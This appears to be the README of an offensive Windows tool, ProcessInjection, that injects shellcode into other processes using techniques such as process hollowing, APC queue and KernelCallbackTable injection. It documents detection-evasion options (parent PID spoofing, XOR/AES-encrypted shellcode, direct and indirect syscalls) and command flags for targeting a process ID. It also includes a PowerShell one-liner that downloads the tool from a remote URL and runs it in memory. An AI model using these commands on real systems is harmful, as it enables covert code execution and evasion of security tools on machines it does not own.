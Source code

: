 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 5 process injection techniques.

```
1) Vanilla Process Injection
2) DLL Injection
3) Process Hollowing
4) APC Queue
5) KernelCallbackTable Injection
```

The tool accepts shellcode in 4 formats.

```
1) base64
2) hex
3) c
4) raw
```

The tool supports 4 methods to perform process injection.

```
1) P/Invoke
2) D/Invoke
3) Direct Syscalls
4) Indirect Syscalls
```

Supports 3 detection evading techniques.

```
1) Parent PID Spoofing

Encryption
2) XOR Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
3) AES Encryption (It can also be used with Parent PID Spoofing technique but can't be used with DLL Injection Technique)
```

Can be loaded via reflection.

```
# Load from the disk
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("ProcessInjection.exe"));

# Load from a remote server
[System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData("http://<URL>/ProcessInjection.exe"))

# Perform process injection
[ProcessInjection.ProcessInjection]::Main(@("/t:1", "/f:base64", "/pid:<ProcessId>", "/sc:<ShellCode>"))
```

### Command Line Usage

```
Usage           Description
-----           -----------
/t              Specify the process injection technique id.
                1 = Vanilla Process Injection
                2 = DLL Injection
                3 = Process Hollowing
                4 = APC Queue Injection
				5 = KernelCallbackTable Injection
/m              Specify the method to be used
                p = P/Invoke (Default)
                d = D/Invoke
		ds = Direct Syscalls
		ids = Indirect Syscalls
/f              Specify the format of the shellcode.
                base64
                hex
                c
                raw
/pid            Specify the process id.
/parentproc     Specify the parent process name.
/path           Specify the path of the file that contains the shellcode.
/ppath          Specify the path of the executable that will be spawned (Mandatory while using /parentproc argument).
/url            Specify the url where the shellcode is hosted.
/enc            Specify the encryption type (aes or xor) in which the shellcode is encrypted.
/key            Specify the key that will be used to decrypt the shellcode.
/sc             Specify the shellcode directly in base64 or hex format. Note: To pass large shellcode please leverage reflection to run the program.  
/help           Show help
```

### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)

[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)

[https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html](https://3xpl01tc0d3r.blogspot.com/2019/10/process-injection-part-iii.html)

[https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e](https://medium.com/@r3n_hat/parent-pid-spoofing-b0b17317168e)

[https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html](https://3xpl01tc0d3r.blogspot.com/2019/12/process-injection-part-v.html)

[https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html](https://3xpl01tc0d3r.blogspot.com/2020/08/process-injection-tool-updates.html)


### Contribution Credit

[Renos](https://twitter.com/r3n_hat)

Credits also goes to :

[Aaron Bray](https://github.com/ambray) & [Rasta Mouse](https://twitter.com/_rastamouse) for Process Hollowing code

[The Wover](https://twitter.com/TheRealWover) & [b33f](https://twitter.com/FuzzySec) for Dynamic Invoke - (https://thewover.github.io/Dynamic-Invoke/)

